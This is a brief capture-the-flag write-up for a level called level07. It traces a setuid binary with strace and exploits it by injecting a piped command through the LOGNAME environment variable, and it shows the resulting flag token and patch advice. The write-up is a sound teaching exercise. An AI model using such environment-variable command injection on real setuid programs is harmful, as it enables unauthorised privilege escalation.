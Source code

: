 ## level07

- **How we found it**

	Traced execution with `strace` and saw it invoking `sh -c` with an `echo` of the current user name:

	```bash
	strace ./level07 2>&1 | grep execve
	# execve("/bin/sh", ["sh","-c","/bin/echo level07 "], [/* vars */]) = 0
	```

- **How we exploited it**

	**1.** Inject a shell command via the LOGNAME environment variable (default "level07"):

	```bash
	export LOGNAME='level07 | getflag'
	```


	**2.** Run the setuid binary:

	```bash
	./level07
	# Check flag. Here is your token: fiumuikeil55xe9cu4dood66h
	```

- **Utility of this exercise**

	Demonstrates how untrusted environment variables in setuid programs can lead to command injection and privilege escalation.

- **How to patch**

	- Do not use user‑controlled environment variables in shell invocations.

	- Clear or sanitize the environment in setuid binaries, or remove the setuid bit if unnecessary.

